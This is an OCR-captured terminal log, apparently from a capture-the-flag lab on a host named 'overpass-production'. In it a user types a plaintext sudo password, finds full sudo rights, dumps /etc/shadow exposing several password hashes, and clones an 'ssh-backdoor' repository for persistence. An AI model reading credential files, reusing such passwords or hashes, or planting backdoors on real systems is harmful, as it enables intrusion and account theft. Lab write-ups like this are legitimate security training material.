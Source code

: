 ```bash
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
```